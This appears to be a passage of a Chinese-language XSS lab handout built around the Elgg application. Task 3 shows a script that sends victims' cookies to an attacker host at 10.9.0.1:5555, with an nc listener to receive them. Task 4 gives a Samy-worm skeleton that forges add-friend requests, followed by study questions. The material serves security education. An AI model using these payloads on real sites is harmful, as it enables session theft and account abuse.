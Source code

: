 ========================================
文件路径: .\跨站脚本（XSS）攻击实验\任务3：从受害者的机器窃取Cookie\summary.html
========================================

<div>
<div>在前一个任务中，攻击者编写的恶意 JavaScript 程序可以打印出用户的 cookie，但只有用户能看见这些 cookie，而攻击者不能。在本任务中，攻击者希望将这些 cookie 发送到自己那里。为此，恶意 JavaScript 需要向攻击者的机器发送一个 HTTP 请求，并在请求中附带 cookie。</div>
<br>
<div>我们可以让恶意 JavaScript 在网页中插入一个 &lt;img&gt; 标签来实现这一点，其 src 属性设置为攻击者的机器地址。当 JavaScript 插入 img 标签时，浏览器会从 src 字段中指定的 URL 那里下载图像。这会产生一个 HTTP GET 请求，发送到攻击者机器。以下给出的 JavaScript 会往攻击者的机器（IP 地址 10.9.0.1）上的端口 5555 处发送 cookie，而那里运行着一个 TCP 服务器。</div>
<pre class="language-markup"><code>&lt;script&gt;document.write('&lt;img src=http://10.9.0.1:5555?c='
                       + escape(document.cookie) + '   &gt;');
&lt;/script&gt;</code></pre>
<br>
<div>Netcat（或 nc）是攻击者常用的一个工具。运行带有 -l 选项时，它会变成一个监听指定端口的 TCP 服务器。这个服务器会打印出客户端发来的信息，并将用户输入的内容发回给客户端。以下的命令监听端口 5555 ：</div>
<div>
<pre class="language-markup"><code>$ nc -lknv 5555</code></pre>
</div>
<div>选项 -l 指定 nc 运行一个服务器；选项 -n 使 nc 不对地址做 DNS 解析；选项 -v 使 nc 输出更详细的信息；选项 -k 表示当一次连接完成后，继续等待其他连接。</div>
</div>

========================================
文件路径: .\跨站脚本（XSS）攻击实验\任务4：成为受害者的“好友”\summary.html
========================================

<div>在这个任务和下一个任务中，我们将执行类似于 Samy 在 2005 年对 MySpace 所做的攻击（即 Samy 蠕虫）。我们将编写一个 XSS 蠕虫，使得任何访问 Samy 页面的用户都会自动将 Samy 添加为好友。这个蠕虫先不会自我传播，在后面的任务中，我们会实现自我传播。</div>
<p></p>
<div>在这个任务中，我们需要编写一个恶意 JavaScript 程序，直接从受害者的浏览器发出“添加好友”的 HTTP 请求，从而将 Samy 添加为受害者的好友。我们已经在 Elgg 服务器上创建了一个名为 Samy 的用户（用户名为 samy）。</div>
<p></p>
<div>要为受害者添加朋友，首先需要弄清楚在 Elgg 中用户是如何合法添加好友的。更具体地说，我们需要知道当用户添加好友时都发送了什么信息到服务器。我们可以使用 Firefox 的 HTTP 检查工具来获取这些信息，它可以显示浏览器发送的任何 HTTP 请求的内容。从内容中我们可以识别出请求中的所有参数。</div>
<p></p>
<div>了解了添加好友时的 HTTP 请求后，我们可以通过编写一个 JavaScript 程序来发出相同的 HTTP 请求。我们提供了一个 JavaScript 代码框架。</div>
<div>
<pre class="language-markup"><code>&lt;script type="text/javascript"&gt;
window.onload = function () {
  var Ajax=null;

  var ts="&amp;__elgg_ts="+elgg.security.token.__elgg_ts;          🅰
  var token="&amp;__elgg_token="+elgg.security.token.__elgg_token; 🅱

  // 构建添加 Samy 为好友的 HTTP 请求。
  var sendurl=...;  //FILL IN

  // 创建并发送 Ajax 请求，以添加好友
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
}
&lt;/script&gt;</code></pre>
</div>
<div>上述代码应放置在 Samy 个人资料（profile）页面的 "About Me" 字段中。这个字段提供了两种编辑模式：编辑器模式（默认）和文本模式。使用编辑器模式时，编辑器会在输入的文本中添加额外的 HTML 代码，而使用文本模式时不会。我们不想向攻击代码添加任何额外的字符，因此我们需要选择文本模式。点击位于 "About Me" 字段顶部右侧的 "Edit HTML" 进入文本模式。</div>
<p></p>
<div><strong>问题。 </strong>请回答以下问题：</div>
<ul>
<li><strong>问题1</strong>： 解释第 🅰 行和第 🅱 行的目的，为什么它们是必要的？</li>
<li><strong>问题2：</strong> 如果 Elgg 应用程序仅提供编辑器模式，即你无法切换到文本模式，你能成功发起攻击吗？</li>
</ul>